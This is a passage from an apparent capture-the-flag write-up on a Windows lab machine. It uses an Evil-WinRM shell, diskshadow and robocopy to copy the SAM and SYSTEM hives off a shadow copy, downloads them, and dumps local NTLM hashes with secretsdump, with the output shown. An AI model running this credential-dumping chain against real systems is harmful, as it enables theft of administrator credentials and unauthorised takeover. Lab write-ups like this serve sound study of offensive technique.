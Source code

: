 ```bash
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :        34        34         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00
   Ended : Sunday, September 29, 2024 6:04:32 PM

*Evil-WinRM* PS C:\Users\Public\Music> type root.txt
ba0d5d893ca006------------------
```

Excellent, onto the shell.

## admin hash

This next part is a tiny bit convoluted but simple to understand. We can't dump the SAM and SYSTEM files as it stands right now, we need a workaround in order to grab them. diskshadow.exe is used to create volumes and interactions between them. We can define a volume of C: and give it an alias, then expose that alias to another drive to grab files the default system might not let us grab. 

But to do this there is an issue, diskshadow.exe is an interactive script, meaning our poor shell can't handle interacting with it normally. That why we make a file with the commands we want to run then use that as an argument. After a successful download locally we can use the download command in evil-winrm and then secretsdump as mentioned above to dump the hashes. All together that attack chain looks like:

```bash
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append        
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
diskshadow.exe /s c:\TMP\diskshadow.txt
```

Note here download takes absolute paths to the file to download and the location on your local machine.

```bash
robocopy /b Z:\Windows\System32\Config C:\TMP SAM
robocopy /b Z:\Windows\System32\Config C:\TMP SYSTEM
download c:\TMP\SAM /tmp/SAM
download c:\TMP\SYSTEM /tmp/SYSTEM
```

```bash
secretsdump.py -sam SAM -system SYSTEM LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```
